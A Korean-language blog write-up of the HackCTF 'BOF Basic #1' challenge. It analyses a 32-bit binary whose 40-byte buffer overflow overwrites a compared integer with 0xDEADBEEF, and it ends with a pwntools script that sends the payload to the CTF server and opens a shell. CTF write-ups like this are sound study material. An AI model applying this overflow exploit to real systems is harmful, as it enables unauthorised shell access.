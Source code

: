 ```yaml
---
title:  "[HackCTF] BOF Basic #1 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #1 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-0-0.png)
```
Get Input
Print You are on the right way! 또는 eah dude! You win!
```

요약: `bof_basic`, `nc ctf.j0n9hyun.xyz 3000` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-0-1.png)

![](/assets/HCTF/bof_basic-0-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/bof_basic-0-7.png)

우선 서버가 다행히 매번 같은 `[check]`를 반환 한다.

![](/assets/HCTF/bof_basic-0-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-0-4.png)

main func를 우선 분석 살펴봄. `fgets`로 String 입려 받고, `0xdeadbeef` 와 `cmp` (Compare) 와 `jne` (Jump Not Equal)로 값 비교 후 일치 하지 않는 경우 `0x804857c`로 Jump 한다. 그렇다면 값이 Equal 하다면 순차적으로 진행된다는 뜻.

![](/assets/HCTF/bof_basic-0-5.png)

IDA를 통해 Static Analysis 시도. `jne` 할 경우 (10번째 행) "You are on the right way!" 라는 메시지가 반겨줌.

또한 `cmp` 대상인 0xDEADBEEF 확인. 따라서 입력 값을 0xDEADBEEF 로 설정할 경우 `system("/bin/bash");` 를 호출 가능

3번째 행으로부터 char 형 배열 s를 40의 길이로 선언한 것 확인. 메모리 주소가 [esp+4]. 사용자로부터 입력 받는 값인 int 형 v5의 경우 메모리 주소가 [esp+44]. 하지만 7행을 보자면 fgets를 통해 최대 문자열 길이를 45까지 입력이 가능 한 것을 확인 가능.

이를 이용해 s를 40 바이트로 채우고 BOF시켜 뒤에 `0xDEADBEEF` 를 넣을 경우 v5가 `0xDEADBEEF` 로 Overwrite.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 40 + p32(0xDEADBEEF)
```

# Exploit Code
```
from pwn import *
context.log_level = DEBUG # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3000)
payload = "Z" * 40 + p32(0xDEADBEEF)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-0-6.png)